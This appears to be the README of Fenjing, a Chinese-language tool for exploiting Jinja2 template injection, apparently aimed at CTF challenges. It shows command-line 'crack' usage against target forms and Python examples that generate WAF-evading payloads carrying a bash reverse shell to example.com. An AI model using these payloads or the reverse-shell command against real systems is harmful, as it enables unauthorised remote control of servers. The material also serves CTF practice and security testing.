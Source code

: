 ## 注意

不要使用windows的cmd跑脚本，要不然就会像[这位](https://github.com/Marven11/Fenjing/issues/3)一样出问题

## 启动webui

webui不支持自定义Headers和Cookie等特性，如果需要更灵活的使用方式请直接使用命令行或者作为库调用
执行`python -m fenjing webui`并访问[http://127.0.0.1:11451](http://127.0.0.1:11451)即可
指定host和port：`python -m fenjing webui --host '127.0.0.1' --port 1145`

## 作为命令行脚本使用

扫描网站：`python -m fenjing scan --url 'http://xxx.xxx/'`

获取config：`python -m fenjing get-config --url 'http://xxx.xxx' --method GET --inputs name`

攻击对应的表单：
- `python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name`
- 也可以指定多个input：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name,email`
- 指定攻击成功后执行的命令
    - 不指定则进入交互模式
    - `python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --user-agent`

通用设置
- 指定请求间隔：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --interval 0.1`
- 指定请求时使用的UA：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --user-agent 'Aaa/1.1'`
- 指定Header：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --header 'Aaa: Bbb' --header 'Ccc: Ddd'`
- 指定Cookie：`python -m fenjing crack --url 'http://xxx.xxx' --method GET --inputs name --cookie 'name1=value1; name2=value2'`


## 作为库使用

### 根据WAF函数生成shell指令对应的payload

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    # config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    # print(f"{config_payload=}")
```

### 让生成器学会使用新的变量

[参考](https://github.com/Marven11/Fenjing/issues/4)

比如说你想让生成器学会使用新的变量`aaa`，它的值是100，需要在payload的前面加上`{%set aaa=0x64%}`，那你只需要这么写

```python
from fenjing.full_payload_gen import FullPayloadGen
from fenjing.const import OS_POPEN_READ
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 这个函数因题目而定
    blacklist = [
        "00", "1", "3", "5", "7", "9"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    full_payload_gen = FullPayloadGen(waf)
    full_payload_gen.do_prepare()
    full_payload_gen.context["aaa"] = 100
    full_payload_gen.context_payload += "{%set aaa=0x64%}"
    shell_payload, will_print = full_payload_gen.generate(OS_POPEN_READ, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    if not will_print:
        print("这个payload不会产生回显")
    print(f"{shell_payload=}")
```
